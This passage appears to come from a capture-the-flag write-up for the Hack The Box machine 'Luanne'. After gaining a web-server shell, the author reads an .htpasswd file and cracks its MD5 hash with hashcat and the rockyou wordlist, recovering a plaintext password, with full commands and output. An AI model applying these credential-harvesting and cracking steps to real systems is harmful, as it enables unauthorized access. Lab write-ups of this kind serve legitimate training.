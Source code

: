 It worked!

### Enumeration as `_httpd`

```text
$ which python3
which: PATH environment variable is not set
```

Checked to see if python3 was installed, but got an error that the PATH was not set. After some testing I found that my usual TTY upgrades were not working.

```text
$ pwd
/var/www
$ ls -la
total 20
drwxr-xr-x   2 root  wheel  512 Nov 25 11:27 .
drwxr-xr-x  24 root  wheel  512 Nov 24 09:55 ..
-rw-r--r--   1 root  wheel   47 Sep 16  2020 .htpasswd
-rw-r--r--   1 root  wheel  386 Sep 17  2020 index.html
-rw-r--r--   1 root  wheel   78 Nov 25 11:38 robots.txt
$ cat .htpasswd 
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```

found an MD5 hash in `.htpasswd`

```text
┌──(zweilos㉿kali)-[~/htb/luanne]
└─$ hashcat -O -D1,2 -a0 -m500 hash /usr/share/wordlists/rockyou.txt --username
hashcat (v6.1.1) starting...

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0:iamthebest    

Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
Time.Started.....: Sat Mar 27 20:11:46 2021 (0 secs)
Time.Estimated...: Sat Mar 27 20:11:46 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    30002 H/s (7.20ms) @ Accel:256 Loops:250 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3074/14344385 (0.02%)
```